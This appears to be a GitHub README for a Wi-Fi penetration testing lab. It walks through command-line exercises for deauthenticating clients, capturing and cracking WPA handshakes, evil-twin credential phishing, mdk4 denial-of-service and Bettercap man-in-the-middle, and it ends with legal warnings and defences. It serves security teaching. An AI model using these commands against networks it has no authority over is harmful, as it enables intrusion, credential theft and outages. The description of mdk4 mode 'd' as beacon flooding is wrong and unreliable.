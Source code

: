 # 🛠️ Wireless Network Penetration Testing Lab

This lab is good for cybersecurity professionals, students, and hobbyists looking to explore Wi-Fi vulnerabilities in a legal, controlled setup.
You can complete this using [WebSploit Labs](https://websploit.org/).
---

## 📚 Objectives

By the end of this lab, you will:
- Understand wireless protocols and encryption standards (WEP, WPA, WPA2, WPA3).
- Capture and analyze Wi-Fi traffic.
- Perform deauthentication and man-in-the-middle (MITM) attacks.
- Crack wireless passwords using captured handshakes.
- Set up rogue access points and detect them.

---

## 🧰 Lab Requirements

### Hardware
- A computer with a compatible wireless network adapter that supports **monitor mode** and **packet injection**.
  - Recommended: Alfa AWUS036ACH or TP-Link TL-WN722N v1
- (Optional but useful) A second Wi-Fi device (laptop or phone) to act as a victim/client.

HOWEVER!!!: You can also use the `mac80211_hwsim` kernel module. The `mac80211_hwsim` is a software simulator of 802.11 radio(s). You can learn more about how to set this up [here](https://github.com/The-Art-of-Hacking/h4cker/blob/master/wireless_resources/virtual_adapters.md).


### Software
- **Kali Linux** (Bare-metal or VM, fully updated)
- Tools:
  - `aircrack-ng`
  - `Wireshark`
  - `hostapd`
  - `dnsmasq`
  - `mdk4`
  - `Bettercap`
  - `EvilAP`, `Wifiphisher`, or `Fluxion`

---

## 🏗️ Lab Setup

### 1. **Install Kali Linux**
Install or boot into Kali Linux. Make sure your Wi-Fi adapter is recognized using:

```bash
iwconfig
```

### 2. **Put the Adapter in Monitor Mode**

```bash
airmon-ng check kill
airmon-ng start wlan0
```

> Replace `wlan0` with your interface name.

---

## 🧪 Lab Exercises

### 🔹 Exercise 1: Wi-Fi Reconnaissance

```bash
airodump-ng wlan0mon
```
- Identify nearby networks (SSID, BSSID, channel).
- Pick a target network for testing (preferably your own test AP).

---

### 🔹 Exercise 2: Capturing a WPA/WPA2 Handshake

```bash
airodump-ng -c [channel] --bssid [BSSID] -w capture wlan0mon
```
- In another terminal:

```bash
aireplay-ng --deauth 10 -a [router BSSID] -c [client MAC] wlan0mon
```

- Crack with:

```bash
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```

---

### 🔹 Exercise 3: Evil Twin Attack (Rogue AP)

- Use `hostapd`, `dnsmasq`, and `Bettercap` or `Wifiphisher` to mimic a known network.
- Trick clients into connecting.
- Perform credential harvesting or browser phishing.

---

### 🔹 Exercise 4: Wi-Fi DoS with `mdk4`

```bash
mdk4 wlan0mon d
```
- Launch a denial-of-service attack by flooding the airspace with beacon frames.

---

### 🔹 Exercise 5: Wireless MITM with Bettercap

```bash
bettercap -iface wlan0mon
```
- Set up a fake portal, sniff credentials, or manipulate traffic.

---

## ⚠️ Legal & Ethical Use

This lab is **for educational purposes only**. Never target networks or systems without **explicit authorization**. Always test in an isolated lab environment with equipment you own or have permission to use.

---

## 🔒 Defending Against These Attacks

- Use WPA3 if available.
- Enforce strong passphrases.
- Enable client isolation.
- Use 802.1x with certificates (Enterprise Wi-Fi).
- Monitor for rogue APs and unusual MAC activity.

---

## 🌐 Resources

- [Aircrack-ng Documentation](https://www.aircrack-ng.org/documentation.html)
- [Bettercap Wiki](https://github.com/bettercap/bettercap/wiki)
- [Fern Wi-Fi Cracker](https://www.kali.org/tools/fern-wifi-cracker/)

